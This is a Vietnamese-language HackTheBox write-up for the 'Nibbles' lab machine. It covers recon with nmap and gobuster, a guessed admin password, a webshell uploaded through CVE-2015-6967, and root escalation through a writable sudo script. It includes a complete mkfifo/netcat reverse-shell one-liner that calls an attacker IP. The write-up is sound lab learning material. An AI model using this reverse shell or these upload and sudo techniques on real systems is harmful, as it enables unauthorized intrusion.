 Đây là machine ở mức độ Easy và cũng là machine đầu tiên mình own (Bú ké từ module học chứ không có tiền để chơi module thât =)))

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/e77047f3-2deb-47fa-9199-c61733074c8a)

# Recon:

## nmap:
- Sử dung  `nmap` scan port, version và service:

`nmap -sV -sc 10.129.188.19`

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/787fb4a9-1821-4fcb-a9c5-09ac6e4cdf60)

Cũng không có gì hay lắm

## Scan dir:
- Truy cập vào web và `Ctr U` ta nhận được 1 path:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/8ffe0ee3-e1c6-4520-9a4e-30b7f4c261da)

- Truy cập vào `/nibbleblog/` có vẻ cũng không có gì, có thể sẽ còn 1 path nữa trong này: Sử dung `gobuster` vì đang làm quen với nó luôn :)

`gobuster -q dir -u http://10.129.188.19/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt`

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/0d9e1093-7aa3-4567-a016-2ddf7a7efd73)

- Sau khi truy cập vào path ta chú ý được 3 path `/README`, `/content` và `/admin.php`:
  + `/README`: Tìm được version của nibble và search trên google nó 1 CVE:
  
 ![image](https://github.com/vanniichan/HackTheBox/assets/112863484/c4a08e30-16ff-458f-961d-bee3f52fdd07)

  + `/content`: Trong path này có dẫn đến 1 file xml khác thú vị. `users.xml`:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/8c8b8689-1c47-4f18-90b3-771c43101bbe)

Vậy là cf được có user là admin và chưa có đươc password. Cái này cũng vi phạm vào chính sách weak-password khi ta vào file `config.xml` và đoán được password:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/933d8760-d4f3-4566-898e-403148922167)

  + `/admin.php`: Tìm được trang login của admin và cần tìm được password để log vào: `admin:nibbles`

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/c64ede67-28e7-4e8d-9929-85944c21dcc8)

# Exploit:

## RCE:

- Như đã trình bày ở trên, nó dính CVE cụ thể CVE-2015-6967 này liên quan đế vuln `File Upload`, do đó ta sẽ tiến hành exploit dựa vào tìm các feature `Upload`:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/881d4a50-50eb-47c9-bb75-7892d75bc50f)

- Tiến hành thử upload webshell lên để xem nó có bị filter không. Tuy nhiên sau đó phải đọc file ở đâu? Câu trả lời nằm ở `/content/private/plugins/my_image` mà ta vừa [Recon](https://github.com/vanniichan/HackTheBox/edit/main/Nibbles/Wup.md#recon) ở trên:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/10049b36-85e9-4703-94c5-ec22f873fb4b)

- Upload thành công! tiếp theo sẽ tiến hành RCE:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/b7f9bf50-4a79-4381-8683-f38f05b51050)

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/f1d4e632-fa05-41cd-afe3-33115ab98b0e)

- Từ đây ta lấy được flag của user tại `user.txt`:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/890df679-d849-497b-804d-3e8e69b8e139)

## Privesc:

- Sử dụng `sudo -l` hoặc [LineEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). Trên tutorial [HTB](https://academy.hackthebox.com/module/77/section/853) nó sẽ hướng dẫn dùng `LinEnum.sh` nhưng `sudo -l` hiện tại vẫn dùng được nên dùng cho nhanh:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/4eb97e44-6268-48fb-a94c-60b22946bd22)

- Từ ảnh trên ta có thể tận dụng việc path `/home/nibbler/personal/stuff/monitor.sh` có thể **chạy root mà không cần password**, tuy nhiên phải xem mình có thể viết vào file này nữa hay không. Nó full quyền luôn, thật là may mắn :)))):

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/36415020-1083-4448-970c-1d2895b5ee9f)

- Tiến hành đè shell vào và chạy file:

`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.147 1111 >/tmp/f' | tee -a monitor.sh`

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/643ecc37-babb-42bb-95f0-ef9299322c6f)

- Vậy là leo quyền thành công, sau đó lấy flag:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/a1e34d5c-23e2-4aed-a2d2-661e09262276)

----------------------------------------

-------------------- **Own machine!** --------------------------
